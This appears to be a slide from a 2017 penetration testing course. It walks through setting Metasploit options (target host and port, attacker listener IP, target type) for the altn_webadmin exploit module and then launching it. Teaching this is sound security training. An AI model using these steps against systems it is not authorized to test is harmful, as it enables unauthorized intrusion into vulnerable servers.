

# Set options for exploit and payload
Show options
msf exploit(altn_webadmin) >  show options
Set the options:
msf…> set RHOST 192.168.100.x TARGET IP
msf…> set RPORT 1000 VULNERABLE SERVICE
msf…> set LHOST 192.168.100.Y ATTACKER IP
msf…> set TARGET 0 TYPE OF EXPLOIT
Launch the exploit
msf exploit(altn_webadmin) > exploit

11/5/2017
Penetration Testing
51